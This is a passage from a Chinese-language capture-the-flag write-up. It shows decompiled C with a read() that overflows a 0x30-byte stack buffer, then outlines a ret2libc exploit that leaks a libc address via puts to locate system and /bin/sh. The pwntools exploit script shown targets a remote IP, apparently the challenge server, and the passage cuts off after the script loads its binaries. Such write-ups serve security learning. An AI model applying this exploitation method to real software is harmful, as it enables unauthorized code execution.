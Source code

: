 		seed = time(0);

		sub_804857B();

		puts(">");

		srand(seed);

		v0 = 0;

		do

		{

			buf[v0] = 0;

			++v0;

		}

		while ( v0 < 8 );

		read(0, buf, 0xA0u);

		for ( i = 0; ; ++i )

		{

			v3 = strlen((const char *)buf);

			if ( v3 <= i )

				break;

			v1 = *((_BYTE *)buf + i);

			v2 = rand();

			*((_BYTE *)buf + i) = v2 ^ v1;

		}

		return 0;

	}

发现read能读0xA0个数，但buf的长度只有0x30，很明显的栈溢出。确定溢出的位置0x30+4=0x34。查一下字符，发现system和/bin/sh都没有给，但给了libc，于是通过puts泄露真实地址之后再算基地址，拿到system和binsh的地址

Exp：


	#!/usr/bin/env python

	#-*- coding:utf-8 -*-

	from pwn import *

	#r=process('./rrr')

	r=remote('101.71.29.5',10013)

	elf=ELF('rrr')

	libc=ELF('libc-2.23.so')
